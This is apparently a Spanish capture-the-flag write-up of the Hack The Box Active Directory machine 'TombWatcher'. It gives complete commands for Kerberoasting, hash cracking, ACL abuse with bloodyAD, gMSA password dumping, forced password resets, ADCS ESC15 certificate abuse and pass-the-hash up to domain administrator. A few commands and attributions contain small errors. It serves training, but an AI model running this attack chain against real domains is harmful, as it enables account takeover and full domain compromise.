Se nos proporcionan las siguientes credenciales ``henry:H3nry_987TGV!``
# Scan
## Nmap
Empezamos realizando un escaneo con ``nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.232.167 -oN scan``
```js
❯ nmap -p- -sV -sC -T 5 --min-rate=5000 10.129.232.167 -oN scan
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 12:28 +0100
Nmap scan report for 10.129.232.167
Host is up (0.038s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-27 15:28:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-27T15:30:07+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-27T15:30:07+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-27T15:30:07+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-02-27T15:30:08+00:00; +3h59m59s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49696/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
65469/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 3h59m58s, deviation: 0s, median: 3h59m58s
| smb2-time: 
|   date: 2026-02-27T15:29:29
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.10 seconds
```
Ahora vamos a añadir a dc01.tombwatcher.htb y tombwatcher.htb a nuestro ``/etc/hosts``
## Bloodhound
``bloodhound-python -d tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' -gc DC01.tombwatcher.htb --zip -c All -ns 10.129.232.167``
Haciendo el análisis en bloodhound establecemos la siguiente ruta de ataque siguiendo los Outbound Object Control.

# User
Para realizar estos ataques todos necesitamos sincronizar nuestro reloj con el de la maquina victima: ``sudo ntpdate -s 10.129.232.167``
##  Henry → Alfred (WriteSPN)
Alfred tiene permisos para escribir el SPN de Alfred y luego solicitar un TGS para ese servicio y crackearlo offline para conseguir la contraseña del usuario.
```bash
targetedKerberoast -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' --request-user 'alfred' --dc-ip 10.129.232.167
```

Ahora lo guardamos en un archivo y intentamos crackearlo.
```bash
hashcat alfred_ticket /usr/share/wordlists/rockyou.txt
```

Esto nos da como contraseña ``alfred:basketball``.
## Alfred → Infrastructure (AddSelf)
Alfred puede agregarse a sí mismo como miembro del grupo infrastructure.
```bash
bloodyAD -d tombwatcher.htb -u alfred -p 'basketball' --host 10.129.232.167 add groupMember Infrastructure alfred
```
Para comprobarlo usamos:
```bash
bloodyAD -d tombwatcher.htb -u alfred -p 'basketball' --host 10.129.232.167 get membership alfred
```

## Infraestructure → ANSIBLE_DEV$ (ReadGMSAPassword)
Ahora como el grupo Infrastructure tiene permisos para leer la contraseña de una Group Managed Service Account (gMSA) llamada ANSIBLE_DEV$ podemos usar 
```bash
gMSADumper -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' -d tombwatcher.htb probar con bloodyAD 
```

Esto nos devuelve el NTLM-Hash de alfred: ``:93f81a98d22217b6206d950528a4802e``
##  ANSIBLE_DEV$ → Sam (ForceChangePassword)
La cuenta de servicio de ansible tiene el privilegio de forzar el cambio de contraseña de Sam. Como no sabemos la contraseña actual simplemente asignamos una nueva.
```bash
bloodyAD -d tombwatcher.htb -u 'ansible_dev$' -p :93f81a98d22217b6206d950528a4802e --host 10.129.232.167 set password sam 'P@sswordSam123!'
```

## Sam → John (WriteOwner)
Sam tiene el permiso WriteOwner sobre el objeto del usuario John. 
```bash
#Primero cambiamos el propietario del objeto john a sam
bloodyAD -d tombwatcher.htb -u sam -p 'P@sswordSam123!' --host 10.129.232.167 set owner john sam
#Otorgamos genericAll a sam sobre john
bloodyAD -d tombwatcher.htb -u sam -p 'P@sswordSam123!' --host 10.129.232.167 add genericAll john sam
#Como ahora tenemos genericAll sobre john lo usamos para cambiarle la contraseña al usuario john
bloodyAD -d tombwatcher.htb -u sam -p 'P@sswordSam123!' --host 10.129.232.167 set password john 'John_Reset_2026!'
```

## John

Como vemos que estamos en el grupo remote management users probamos a conectarnos por winrm:
```bash
evil-winrm-py -i 10.129.232.167 -u 'john' -p 'John_Reset_2026!'
```
Y aquí en el escritorio encontramos la flag de user.

# Privesc


Empezamos enumerando los certificados:
```bash
certipy-ad find -u 'john' -p 'John_Reset_2026!' -dc-ip 10.129.232.167 -target tombwatch.htb -stdout
```
Vemos que tiene problemas para resolver el SID 

Vemos que ese usuario tiene permisos sobre este certificado y este mismo contiene **EnrolleeSuppliesSubject = True**  entonces si conseguimos el control de ese usuario podemos solicitar un certificado especificando un SAN arbitrario.

Al buscar en bloodhound vemos que no existe por lo que podemos intentar ver si se ha eliminado.


Para ver si fue eliminado y se puede recuperar usamos:
```bash
Get-ADObject -Filter "ObjectSid -eq 'S-1-5-21-1392491010-1358638721-2126982587-1111'" -IncludeDeletedObjects
```
Las cuentas en este estado se conocen como tombstone.
Para restaurarlo usamos:
```bash
Get-ADObject -Filter "ObjectSid -eq 'S-1-5-21-1392491010-1358638721-2126982587-1111'" -IncludeDeletedObjects | Restore-ADObject
```
Para cambiarle la contraseña y habilitar la cuenta:
```bash
Set-ADAccountPassword cert_admin -NewPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force)
Enable-ADAccount cert_admin
```
Ahora tenemos las siguientes credenciales ``cert_admin:P@ssw0rd123!``
Ahora al volver a enumerar los certificados ya vemos cert_admin en vez del sid:
```bash
certipy-ad find -u 'john' -p 'P@ssw0rd123!' -dc-ip 10.129.232.167 -target tombwatch.htb -stdout
```

Ahora vamos a usarlo para ver que certificados son vulnerables:
```bash
certipy-ad find -u 'cert_admin' -p 'P@ssw0rd123!' -dc-ip 10.129.232.167 -vulnerable
```

Vemos que la vulnerabilidad esta en el ESC15 así que vamos a seguir la guía oficial de certipy para su explotación.
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu
Solicita un certificado utilizando la plantilla WebServer.Al añadir -application-policies 'Certificate Request Agent', estamos intentando que el certificado resultante tenga permisos para solicitar otros certificados en nombre de terceros. Si la CA lo permite, ahora somos un "tramitador" oficial de identidades.
```bash
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' \
    -dc-ip '10.129.232.167' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'
```

Usamos el certificado obtenido en el paso anterior (cert_admin.pfx) para pedir un nuevo certificado, pero esta vez a nombre del usuario Administrator.
```bash
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' \
    -dc-ip '10.129.232.167' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```

Ahora utilizamos el certificado de Administrador para autenticarse contra el Controlador de Dominio (vía Kerberos o PKINIT).
```bash
certipy-ad auth -pfx administrator.pfx  -dc-ip 10.129.232.167  -username "administrator" -domain "tombwatcher.htb"
```

Utilizamos la herramienta evil-winrm para realizar un ataque de Pass-the-Hash obteniendo así una shell como administrator.
```bash
evil-winrm -i 10.129.232.167 -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc'
```
